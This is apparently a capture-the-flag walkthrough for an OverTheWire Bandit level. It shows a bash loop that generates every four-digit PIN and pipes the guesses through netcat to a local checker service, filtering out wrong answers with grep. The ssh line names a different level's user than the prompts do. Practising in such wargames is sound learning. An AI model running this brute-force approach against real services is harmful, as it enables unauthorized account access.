 To connect, `ssh bandit22@bandit.labs.overthewire.org -p 2220`.

On being prompted for a password, enter the password found from the previous level.

After a successful connection, we are presented with a shell.



We are told that we need to send the current level's password and a four digit pincode separated by a space to a service listening on port 30002.

If the password and the pincode are correct, the service will return the password for the next level.


But we don't know the pincode. So we will need to try all possible pincodes from 0000 to 9999.

This is also known as bruteforcing.


To do so, we are first going to generate all possible pincodes, concatenate it with the password and store it in a file.

```
bandit24@bandit:~$ for pincode in {0000..9999}; do echo "<bandit24_password> $pincode"; done > /tmp/<file_name>
```

We run a for loop from 0000 to 9999, concatenate the current level's password with the pincode separated by a space and then store all the combinations in a file.


Before we run the bruteforce, lets try 0000 as pincode to see what response is received if the wrong pincode is sent to the service.

```
bandit24@bandit:~$ echo "<bandit24_password> 0000" | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password. Try again.
^C
bandit24@bandit:~$
```


Now when we run the bruteforce, we know what response we will receive if the wrong pincode is sent.

So we will filter for response which will not contain the word **Wrong** using grep.

The -v switch tells grep to match those inputs where the pattern does not occur.

```
bandit24@bandit:~$ cat /tmp/<file_name> | nc localhost 30002 | grep -v "Wrong"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is <bandit25_password>

Exiting.
bandit24@bandit:~$
```


Be sure to remove the file before closing the connection.


With this we will get the password for the next level.